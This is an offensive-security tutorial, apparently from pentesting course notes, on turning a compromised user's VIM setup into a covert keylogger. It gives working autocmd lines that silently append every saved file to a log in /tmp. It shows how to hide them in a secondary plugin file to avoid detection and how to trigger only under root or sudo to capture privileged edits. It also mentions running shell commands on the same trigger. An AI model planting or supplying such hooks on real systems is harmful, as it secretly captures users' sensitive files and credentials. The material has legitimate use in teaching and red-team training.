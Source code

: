 # VIM Config File Keylogger

{% hint style="info" %}
we want to create a rudimentary keylogger to log any changes a user makes to a file using our compromised VIM editor. This could be useful for capturing sensitive data in configuration files or scripts.

For this scenario we imagine that the current system uses a restricted VIM environment that blocks any shell commands.
{% endhint %}

## AutoCommand

We can use `:autocmd` in a VIM configuration file or in the editor to set actions for a collection of predefined events

Some useful examples are VimEnter (entering VIM), VimLeave (leaving VIM), FileAppendPre (right before appending to a file), and BufWritePost (after writing a change buffer to a file). All of these provide different triggers for performing actions that might benefit an attacker.

We don’t want to risk preventing the user from actually saving their files as this might alert them. To avoid this, we can perform our actions based on the BufWritePost event in VIM. This activates once a buffer has already been written to the intended file.

We can define an autocommand using the autocmd keyword. We then specify which autocommand trigger we want to use, then identify which files we want it to act on. Finally, we’ll provide the command we want to perform once the action is triggered. Let’s set up an autocommand that fires on the BufWritePost action and then writes the content of the file to a log file we specify. We want the action to work on all files being edited. The command would look something like this.

```
echo "" > .vimrc
vi
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
```

In the above command, we start by specifying that we’re defining an autocommand via :autocmd . BufWritePost is the event we’re going to trigger on, meaning that after a buffer is written to a file, we will perform our action. The “\*” specifies that this action will be performed for all files being edited. We could change this to match only files with a particular name or file extension, but in our case we want to do this for every file. Everything after this point is the actual command we’ll perform when the trigger is activated.

## Keylogger

&#x20;The command being run after our condition is triggered is made up of several subcommands. First, we specify that there shouldn’t be any debug output by using the :silent command. We then use :w! to save the buffer contents. The exclamation point (!) is a force modifier. In this case, it will overwrite an existing file if one exists and write to file, even if the file doesn’t already exist. We then redirect the output to append to `/tmp/hackedfromvim.txt.`

&#x20;Putting the above command into our user’s `.vimrc` file is not very discreet, so let’s add a layer of obfuscation. To do this, we can load a secondary VIM configuration file from a different location. We’ll put our command in `/home/offsec/.vim/plugin/settings.vim`.&#x20;

While this doesn’t prevent the user from viewing the file, it does make it less likely the user will see it. If we run VIM on a test file and insert any content, we notice that we don’t get any error messages or indication that anything is wrong and the output file is written successfully.

{% hint style="info" %}
It’s also possible to run shell commands on an autocommand trigger. For example, if we wanted to run a shell script instead of saving the buffer to a file, we could just replace everything after `“:silent”` with `“!”` followed by a shell script name or shell command. Note that in our current restricted environment, we can’t use this approach.
{% endhint %}

## Being More Specific

This approach is useful, but it logs the entire contents of the changed file to our log file for every file the target user edits. Our log file could grow quickly. Let’s refine our attack to include only files that the user is editing using elevated permissions.

VIM allows for control logic in its internal scripting language. it’s possible to access environment variables from within VIM, including which user the application is running as.&#x20;

VIM supports the use of basic if statements in its configuration scripts in this manner.

```
:if <some condition>
:<some command>
:else
:<some alternative command>
:endif
```

Combining this with the ability to use environment variables, we can check whether the user is running as root.

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

we replace our line in settings.vim with this.

in some system configurations it’s possible to persist the VIM’s user environment settings in a sudo context. In these situations, when the user runs VIM as themselves, VIM behaves normally. When they run VIM in a sudo context, however, the keylogger will write any changes they make to files to the log file we’ve specified.







